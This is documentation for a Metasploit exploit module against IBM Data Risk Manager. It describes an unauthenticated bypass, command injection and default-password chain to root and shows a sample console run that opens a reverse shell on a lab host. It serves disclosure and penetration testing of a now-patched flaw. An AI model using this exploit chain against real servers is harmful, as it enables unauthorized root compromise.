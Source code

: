 ## Vulnerable Application

IBM Data Risk Manager (IDRM) contains three vulnerabilities that can be chained by an unauthenticated attacker to achieve remote code execution as root.
The first is an unauthenticated bypass, followed by a command injection as the server user, and finally abuse of an insecure default password.
This module exploits all three vulnerabilities, giving the attacker a root shell.
At the time of disclosure this was an 0day, but it was later confirmed and patched by IBM. The authentication bypass works on versions <= 2.0.6.1,
but the command injection should only work on versions <= 2.0.4 according to IBM.


### Vulnerability information
For more information about the vulnerability check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS` and `LHOST`.

## Scenarios


## Scenarios

A successful exploit will look like this:


```
msf5 exploit(linux/http/ibm_drm_unauth_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.213:8443 - Successfully "stickied" our session ID JQElTQxh
[+] 10.9.8.213:8443 - We have obtained a new admin password 28010e88-6ffb-46e9-90d6-2ded732120d1
[+] 10.9.8.213:8443 - ... and are authenticated as an admin!
[*] 10.9.8.213:8443 - Detected IBM Data Risk Manager version 2.0.2 or above
[+] 10.9.8.213:8443 - We have uploaded our payload...
[+] 10.9.8.213:8443 - and our nmap script file!
[+] 10.9.8.213:8443 - Bearer token 1b78100c-cf42-47fd-b64d-d36c07f1f934 obtained, wait for the final step where we invoke nmap...
[+] 10.9.8.213:8443 - Shell incoming!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.213:57136) at 2020-04-21 15:46:29 +0700

whoami
root
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
```
